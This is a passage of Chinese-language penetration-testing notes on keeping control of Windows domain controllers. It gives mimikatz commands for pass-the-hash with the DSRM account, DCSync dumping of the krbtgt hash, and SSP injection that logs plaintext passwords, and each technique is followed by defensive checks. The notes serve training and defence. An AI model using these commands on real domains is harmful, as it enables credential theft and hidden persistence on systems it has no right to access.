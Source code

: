 6. 使用DSRM账号通过网络远程登陆域控

   使用mimikatz进行哈希传递。在域成员机器的管理员模式下打开mimikatz：

   ```powershell
   privilege::debug
   sekurlsa::pth /domain:DC /user:Administrator /ntlm:XXXXXXXXXXXXXXXXXXXXXXXXXXX
   ```

7. 使用mimikatz的dcsync功能远程转储krbtgt的NTLM Hash

   哈希传递完成后，会弹出一个命令窗口。打开mimikatz，输入命令：

   ```powershell
   lsadump::dcsync /domain:pentest.com /dc:dc /user:krbtgt
   ```

##### DSRM域后门的防御措施

* 定期检查注册表中用于控制DSRM登陆方式的键值`HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`，确认其值为1，或者删除该键值
* 定期修改域中所有域控的DSRM账号
* 经常检查ID为4794的日志。尝试设置活动目录服务还原模式的管理员密码会被记录在4794日志中。

#### SSP维持域控权限

SSP（Security Support Provider）是Windows操作系统安全机制的提供者。简单地说，SSP就是一个DLL文件，主要用来实现Windows操作系统的身份认证功能，例如NTLM、Kerberos、Negotiate、Secure Channel（Schannel）、Digest、Credential（CredSSP）。

SSPI（Security Support Provider Interface，安全支持提供程序接口）是Windows操作系统在执行认证操作时使用的API接口。可以说，SSPI时SSP的API接口。

如果已经拿到了目标机器的System权限，可以使用该方法进行持久化操作。其主要原理是：LSA（Local Security Authority）用于身份验证；lsass.exe作为Windows的系统进程，用于本地安全和登陆策略；在系统启动时，SSP被加载到lsass.exe进程中。但是，如果攻击者对LSA进行了拓展，定义了恶意的DLL文件，在系统启动时将其加载到lsass.exe进程中，就能够获取lsass.exe进程中的明文密码。这一，即使用户更改密码并重新登陆，攻击者依然可以获取该账号的新密码。

##### 内存注入

使用mimikatz可以将伪造的SSP注入内存。这样做不会在系统中留下二进制文件，但如果域控重启，伪造的SSP就会丢失。

```powershell
privilege::debug
misc::memssp
```

如果当前用户注销并且重新登陆，就可以获取都明文密码，存储在：`C:\Windows\System32\mimilsa.log`中。

##### 添加DLL到注册表

将mimikatz的`mimilib.dll`放到系统的`C:\Windows\System32\`下，并且修改注册表：

`HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa/Security Packages`，将DLL文件名加入到其中。

这样即便重启，账号的密码明文就会记录在：`C:\Windows\System32\kiwissp.log`中。

##### SSP维持域控权限的防御措施

* 检查注册表`HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa/Security Packages`是否有可疑的DLL文件
* 检查`C:\Windows\System32\`目录下是否有可疑的DLL文件
* 使用第三方工具检查LSA中是否含有可疑的DLL文件
